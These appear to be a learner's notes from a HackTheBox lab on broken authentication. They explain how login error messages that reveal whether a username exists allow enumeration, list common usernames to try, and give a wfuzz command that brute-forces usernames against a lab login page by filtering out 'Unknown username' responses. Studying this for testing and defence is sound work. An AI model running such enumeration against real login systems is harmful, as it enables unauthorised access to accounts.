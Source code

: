![](Images/Pasted%20image%2020240219172927.png)

### User unknown attack

attackers can brute force for error messages like "the password you entered for the username X is incorrect"   
always make sure to look for usernames like helpdesk, tech, admin, demo, guest, etc. 

if our target has an "unknown username" message we can do a brute force attack with `wfuzz` and a reverse string match against the response text with `--hs "Unknown username"`:

![](Images/Pasted%20image%2020240219175538.png)

```shell
wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php
```
